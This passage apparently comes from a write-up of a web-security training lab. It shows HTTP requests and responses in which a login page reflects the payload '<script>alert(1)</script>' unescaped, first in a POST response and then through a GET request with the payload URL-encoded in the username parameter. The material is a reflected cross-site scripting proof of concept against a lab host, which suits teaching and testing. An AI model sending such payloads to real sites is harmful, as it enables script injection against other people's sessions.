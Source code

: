 PONG
```
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 532

<html>
    <head>
        <title>Login</title>
    </head>
    <body>
        <h1>Login</h1>
        <section>
            <p>Invalid username: <script>alert(1)</script></p>
            <form method="POST" action="/login">
                <label>Username</label>
                <input required="" type="username" name="username"/>
                <label>Password</label>
                <input required="" type="password" name="password"/>
            <button type="submit"> Log in </button>
        </section>
    </body>
</html>

```

Let's try to change request to GET, so it will looks like this:

```html
GET /login?username=%3Cscript%3Ealert%281%29%3C%2Fscript%3E&password=testpasswd HTTP/2
Host: cms-0ad700fa03243c3180f140a600280051.web-security-academy.net
Cookie: session=YAVCt7MVYwIpNByxvtdLWcJWVjoZQcpe
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="127", "Not)A;Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-US
Upgrade-Insecure-Requests: 1
Origin: https://cms-0ad700fa03243c3180f140a600280051.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.6533.100 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://cms-0ad700fa03243c3180f140a600280051.web-security-academy.net/login
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
```

PONG
```html
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 532

<html>
    <head>
        <title>Login</title>
    </head>
    <body>
        <h1>Login</h1>
        <section>
            <p>Invalid username: <script>alert(1)</script></p>
```